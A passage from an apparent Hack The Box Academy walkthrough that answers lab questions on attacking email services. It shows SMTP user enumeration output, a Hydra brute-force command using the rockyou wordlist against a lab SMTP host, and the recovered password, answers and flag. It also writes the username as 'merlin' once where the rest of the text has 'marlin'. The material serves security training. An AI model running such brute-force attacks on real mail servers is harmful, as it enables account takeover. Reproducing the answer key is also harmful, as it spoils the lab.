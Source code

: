 ```
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

## Scan started at Thu Jun 30 22:02:35 2022 ###
10.129.203.12: marlin@inlanefreight.htb exists
## Scan completed at Thu Jun 30 22:02:42 2022 ###
1 results.

79 queries in 7 seconds (11.3 queries / sec)
```

Students will find out that the username is `marlin`.

Answer: `marlin`

# Attacking Email Services

## Question 2

### "Access the email account using the user credentials that you discovered and submit the flag in the email as your answer."

Since students know that the username is `marlin`, they need to bruteforce the password using `Hydra`:

Code: shell

```shell
hydra -l marlin@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt smtp://STMIP -f
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ hydra -l marlin@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt smtp://10.129.203.12 -f

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak 

<SNIP>

[DATA] attacking smtp://10.129.203.12:25/
[25][smtp] host: 10.129.203.12   login: marlin@inlanefreight.htb   password: poohbear
[STATUS] attack finished for 10.129.203.12 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-30 22:11:17
```

Students then need to configure the user account `merlin@inlanefreight.htb` with the password `poohbear` using IMAP or POP3 to read the flag `HTB{w34k_p4$$w0rd}` in the inbox; the former protocol will be used:
